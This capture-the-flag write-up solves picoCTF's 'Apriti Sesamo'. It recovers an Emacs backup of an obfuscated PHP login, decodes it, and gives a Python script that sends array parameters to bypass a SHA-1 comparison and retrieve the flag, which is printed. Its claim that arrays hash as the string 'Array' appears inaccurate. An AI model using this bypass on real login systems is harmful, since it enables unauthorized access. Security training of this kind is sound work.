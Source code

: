 # Apriti Sesamo

|  | 300 points

Author: Junias Bonou

### Description

I found a web app that claims to be impossible to hack! Try it [here](http://verbal-sleep.picoctf.net:50313/)!

Hints:

1. Backup files
2. Rumor has it, the lead developer is a militant emacs user

![image.png](image.png)

![image.png](image%201.png)

In Emacs, when you edit and save a file, it often creates a backup copy of the original file by appending a "~" symbol to the filename. This backup file might contain the original code.

/impossibleLogin.php~

```php
<?php 
	if(isset($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")])&& isset($_POST[base64_decode("\143\x48\x64\x6b")])){$yuf85e0677=$_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];
		$rs35c246d5=$_POST[base64_decode("\143\x48\144\153")];if($yuf85e0677==$rs35c246d5){echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d");
	} else
		{
			if(sha1($yuf85e0677)===sha1($rs35c246d5))
			{
				echo file_get_contents(base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75"));
			} else
			{
				echo base64_decode("\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75");
			}
	}
}?>

WHICH MEANS:

<?php
if (isset($_POST["username"]) && isset($_POST["pwd"])) {
    $username = $_POST["username"];
    $password = $_POST["pwd"];
    if ($username == $password) {
        echo "Login failed!";
    } else {
        if (sha1($username) === sha1($password)) {
            echo file_get_contents("../flag.txt");
        } else {
            echo "Failed! No flag for you";
        }
    }
}
?>
```

- **Condition 1**: If username equals pwd ($username == $password), the login fails immediately.
- **Condition 2**: If username and pwd are different ($username != $password) but their SHA-1 hashes are identical (sha1($username) === sha1($password)), the flag is returned.
- **Otherwise**: If neither condition is met, it outputs the failure message you’re seeing.

### Exploiting PHP Type Juggling

In PHP, the sha1() function expects a string input. If you pass a non-string type like an array, PHP converts it to the string "Array" before hashing

- If username is an array like ["a"] and pwd is an array like ["b"]:
    - username != pwd because ["a"] and ["b"] are different arrays (array comparison in PHP checks key/value pairs).
    - sha1($username) becomes sha1("Array"), and sha1($pwd) also becomes sha1("Array"), which are equal because they hash the same string.

Our payload:

```jsx
import requests

url = "http://verbal-sleep.picoctf.net:50765/impossibleLogin.php"
data = {
    "username[]": "a",
    "pwd[]": "b"
}
response = requests.post(url, data=data)
print(response.text)
```

![image.png](image%202.png)

The warning triggers because it received an array instead of a string. PHP’s type juggling kicks in here, converting both arrays to "Array", which is why the hashes match.

- Each call to sha1() (once for username and once for pwd) triggers a warning because it received an array instead of a string.
- PHP’s type juggling kicks in here, converting both arrays to "Array", which is why the hashes match.
- Then we get the flag: picoCTF{w3Ll_d3sErV3d_Ch4mp_2d9f3447}